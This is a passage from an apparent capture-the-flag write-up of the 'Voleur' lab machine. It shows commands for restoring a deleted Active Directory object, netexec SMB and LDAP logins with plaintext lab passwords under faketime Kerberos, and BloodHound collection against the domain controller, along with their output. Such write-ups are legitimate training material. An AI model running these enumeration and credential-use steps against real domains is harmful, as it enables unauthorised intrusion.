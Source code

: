 ```jsx
Restore-ADObject -Identity '1c6b1deb-c372-4cbb-87b1-15031de169db'
```

and now it will work

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' --continue-on-success
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\todd.wolfe:NightT1meP1dg3on14 STATUS_NOT_SUPPORTED 
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k --continue-on-success
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\todd.wolfe:NightT1meP1dg3on14 
```

nice!!! lets dump bloodhound data again.

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc ldap DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --bloodhound --dns-server 10.10.11.76 --collection All
LDAP        DC.voleur.htb   389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        DC.voleur.htb   389    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
LDAP        DC.voleur.htb   389    DC               Resolved collection methods: acl, objectprops, localadmin, rdp, group, dcom, psremote, trusts, container, session
LDAP        DC.voleur.htb   389    DC               Using kerberos auth without ccache, getting TGT
LDAP        DC.voleur.htb   389    DC               Done in 00M 18S
LDAP        DC.voleur.htb   389    DC               Compressing output into /home/elliot/.nxc/logs/DC_DC.voleur.htb_2025-07-06_042327_bloodhound.zip
```

![alt text](../assets/images/voleur18.png)

